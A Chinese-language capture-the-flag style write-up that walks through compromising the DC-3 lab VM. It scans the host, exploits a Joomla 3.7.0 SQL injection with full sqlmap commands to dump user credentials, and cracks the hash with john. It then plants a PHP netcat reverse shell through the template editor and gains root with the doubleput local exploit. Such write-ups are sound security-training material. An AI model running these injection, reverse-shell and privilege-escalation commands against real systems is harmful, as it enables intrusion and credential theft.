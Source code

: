 ```yaml
---
layout: post
title: DC-3
subtitle: DC-3
date: 2023-07-09 08:57
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

## 2. 信息搜集

主机发现：`192.168.163.131`

![image.png300](https://img.ghostliner.top/pXvsQf.png)

端口扫描

![image.png300](https://img.ghostliner.top/K2a1g5.png)

访问网站 <http://192.168.163.131/> 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 <http://192.168.163.131/administrator/index.php>

`whatweb` 发现网站框架 `Joomla`

![image.png300](https://img.ghostliner.top/4qww6f.png)

`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`

## 3. 渗透测试

搜索版本漏洞

![image.png300](https://img.ghostliner.top/JUEDGl.png)

### 3.1. 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image.png300](https://img.ghostliner.top/IgBLKX.png)

使用该命令：

```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库
![image.png300](https://img.ghostliner.top/RNZXpV.png)

```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

<table>
	<tr>
		<td><center><img alt="image" src="https://img.ghostliner.top/mD6eR2.png"></center></td>
		<td><center><img alt="image" src="https://img.ghostliner.top/ajK0Ne.png"></center></td>
	</tr>
</table>

获取到用户名、密码

![image.png](https://img.ghostliner.top/SDg7ss.png)

Joomla 使用  `#__`  作为数据库表名的**动态前缀占位符**，若安装时前缀设为  `jos_`，则实际表名为  `jos_users`

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```

### 3.2. 反弹 shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传 php 文件，上传反弹 shell 脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```

```mermaid
graph TD
    A[攻击者输入命令] --> B[Netcat 4444端口]
    B --> C["/tmp/f 管道"]
    C --> D["cat 读取命令"]
    D --> E["/bin/sh 执行命令"]
    E --> F[命令结果]
    F --> B[Netcat发回攻击者]
```

根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`

![image.png](https://img.ghostliner.top/LM3Bjc.png)

访问成功，连接到 kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```

### 3.3. 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 <https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip> 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件
![image.png](https://img.ghostliner.top/EOXJpA.png)

`tar -xvf exploit.tar` 解压文件，cd 进目录，执行以下命令，即可获得 root 权限

```shell
./compile.sh
./doubleput
```

![image.png](https://img.ghostliner.top/MIXHhV.png)

